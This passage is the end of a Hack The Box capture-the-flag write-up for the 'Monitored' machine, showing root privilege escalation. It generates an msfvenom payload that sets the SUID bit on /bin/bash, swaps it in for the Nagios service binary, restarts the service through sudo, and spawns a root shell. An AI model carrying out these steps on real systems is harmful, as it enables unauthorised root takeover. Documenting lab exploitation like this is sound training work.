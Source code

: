 - We will use `msfvenom` to generate a binary file named `nagios` that executes `chmod u+s /bin/bash`.

```bash
❯ msfvenom -p linux/x64/exec -f elf CMD='chmod u+s /bin/bash' -o nagios
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 56 bytes
Final size of elf file: 176 bytes
Saved as: nagios
```

-  Then, we will replace the binary file `/usr/local/nagios/bin/nagios` with the one generated using `msfvenom`.

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240507131648.png)

- We will grant execution permissions.

![](/assets/images/HTB-Writeup-Monitored/Pasted image 20240507141749.png)

- Then, we will restart the `nagios` service by executing the script `/usr/local/nagiosxi/scripts/manage_services.sh` as root. Nice! I'm able to convert to the `root` user now, and then I'll read `/root/root.txt`

```bash
nagios@monitored:~$ sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
Job for nagios.service failed because the control process exited with error code.
See "systemctl status nagios.service" and "journalctl -xe" for details.

nagios@monitored:~$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash

nagios@monitored:~$ bash -p
bash-5.1# whoami
root

bash-5.1# cat /root/root.txt
0fae616536de29cf3325855864dfd105
```
>I hope you had as much fun reading this write up as I did writing it. If this writeup helped you, please feel free to go to my [`Hack The Box profile (xpnt)`](https://app.hackthebox.com/users/1504363) and give me a respect 😁. Happy Hacking!!👾
{: .prompt-tip }
